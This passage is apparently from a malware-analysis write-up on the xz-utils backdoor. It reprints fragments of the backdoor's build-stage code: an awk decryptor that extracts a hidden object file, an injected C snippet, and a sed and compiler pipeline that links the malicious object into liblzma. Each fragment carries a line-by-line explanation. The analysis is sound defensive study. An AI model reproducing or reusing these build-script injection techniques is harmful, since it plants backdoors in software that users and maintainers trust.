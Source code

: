 ```sh
        i=(i+1)%m;
        a=c[i];
        j=(j+a)%m;
        c[i]=c[j];
        c[j]=a;
    }
}
{
    v=t["x" (NF<1?RS:$1)];
    i=(i+1)%m;
    a=c[i];
    j=(j+a)%m;
    b=c[j];
    c[i]=b;
    c[j]=a;
    k=c[(a+b)%m];
    printf "%c",(v+k)%m
}'\
| xz -dc --single-stream\
| ((head -c +0 > /dev/null 2>&1) && head -c +88664) > liblzma_la-crc64-fast.o\
|| true
```
- [liblzma_la-crc64-fast.o](/Unknown/xz-utils_backdoor/bin/liblzma_la-crc64-fast.o)
- First extracted the injected code in isolation  
[liblzma_la-crc64-fast_o_gz.bin](/Unknown/xz-utils_backdoor/bin/liblzma_la_crc64_fast_o_gz.bin) by Florian Weimer

```sh
    if ! test -f liblzma_la-crc64-fast.o; then
        exit 0
    fi
```
- If failed the process that create `liblzma_la-crc64-fast.o`, exit script

```sh
    cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
```
- Copy the original file for backup

```sh
    V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
```
- Inject this code to `crc64_fast.c`

```sh
    eval $yosA
    if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
    sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
    sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
    $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
```
- This if statement is running a pipeline of `sed` commands piped into `$CC` with the arguments `liblzma_la-crc64-fast.o` (adding that object as an input to the compiler) and `-x c -` (compile a C program from standard input).
- It rebuilds an edited copy of crc64_fast.c (a real xz source file) and merges the extracted malicious .o file into the resulting object, overwriting the underscored real object file that would have been built originally for crc64_fast.c.